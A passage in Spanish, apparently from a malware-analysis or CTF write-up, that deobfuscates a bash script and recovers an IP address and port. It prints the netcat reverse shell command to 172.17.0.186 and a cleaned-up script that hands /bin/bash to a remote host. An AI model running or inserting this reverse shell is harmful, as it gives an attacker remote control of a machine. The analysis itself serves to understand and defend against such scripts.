 **Desglose de bytes:**

1. `(a >> 24) & 0xFF` → Byte más significativo (MSB): `0xAC = 172`
2. `(a >> 16) & 0xFF` → Segundo byte: `0x11 = 17`
3. `(a >> 8) & 0xFF` → Tercer byte: `0x00 = 0`
4. `a & 0xFF` → Byte menos significativo (LSB): `0xBA = 186`

**Resultado**:

`c = "172.17.0.186"`

***

#### **Paso 4: Usar `b` como puerto**

`d=$((b))`

* El valor de `b` ya está calculado: `6068`. Este será el puerto para la conexión.

***

#### **Paso 5: Configuración del comando final**

`e="nc" f="-e" g=$c h=$d $e $g $h $f /bin/bash &>/dev/null &`

* `e="nc"`: Es el comando `netcat`, usado para establecer conexiones de red.
* `f="-e"`: La opción `-e` de `netcat` ejecuta un programa al recibir una conexión (en este caso, `/bin/bash`).
* `g=$c`: Dirección IP objetivo (descompuesta previamente como `172.17.0.186`).
* `h=$d`: Puerto objetivo (descompuesto previamente como `6068`).

**Comando completo**:

`nc 172.17.0.186 6068 -e /bin/bash &>/dev/null &`

***

#### **Decodificación Completa**

El script:

1. Calcula la dirección IP y el puerto a partir de operaciones XOR.
2. Usa `netcat` para conectarse a la IP `172.17.0.186` en el puerto `6068`.
3. Ejecuta `/bin/bash` para ofrecer una shell remota al atacante.

El codigo se veria algo parecido a esto:

```bash
#!/bin/bash

set +m

# Dirección IP y puerto calculados explícitamente
c="172.17.0.186"  # Dirección IP
d=6068            # Puerto

# Comando para iniciar una conexión usando netcat
e="nc"
f="-e"
g=$c
h=$d

# Establecer conexión con una shell inversa
$e $g $h $f /bin/bash &>/dev/null &
```

